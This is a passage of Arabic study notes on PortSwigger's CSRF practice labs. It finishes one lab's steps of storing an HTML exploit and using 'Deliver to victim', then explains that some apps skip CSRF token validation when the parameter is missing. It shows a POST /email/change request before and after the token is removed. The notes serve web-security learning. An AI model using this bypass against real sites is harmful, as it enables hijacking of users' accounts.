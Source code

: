 7. **روح لسيرفر الاستغلال (Exploit Server):**
   - حط كود **HTML** في خانة **Body**.
   - دوس على **Store**.

8. **جرب الاستغلال بنفسك:**
   - دوس على **View exploit**.
   - راجع الطلبات والردود اللي طلعت بعد تشغيله.

9. **حل المعمل:**
   - غير الإيميل في كود الاستغلال بحيث ميبقاش نفس بتاعك.
   - دوس على **Deliver to victim** لحل التمرين.

---
# 

## [Lab: CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present)

### **📌 ملاحظة هامة:**
بعض التطبيقات بتتحقق من التوكن **لو كان موجود**، لكن بتتجاهل التحقق **لو مش موجود أصلاً**.

في الحالة دي، المهاجم يقدر **يحذف المعامل بالكامل اللي فيه التوكن** (مش بس قيمته) علشان يتخطى التحقق وينفذ هجوم CSRF.

---

### **📌 شكل الريكويست قبل التعديل:**
```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrZtFjPqvm9tOkDvxMvLm

email=pwned@evil-user.net&csrf=12345ABCDE
```

### **📌 شكل الريكويست بعد حذف التوكن (تم تجاوز الحماية):**
```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrZtFjPqvm9tOkDvxMvLm

email=pwned@evil-user.net
```

---

### **📌 خطوات الحل :**
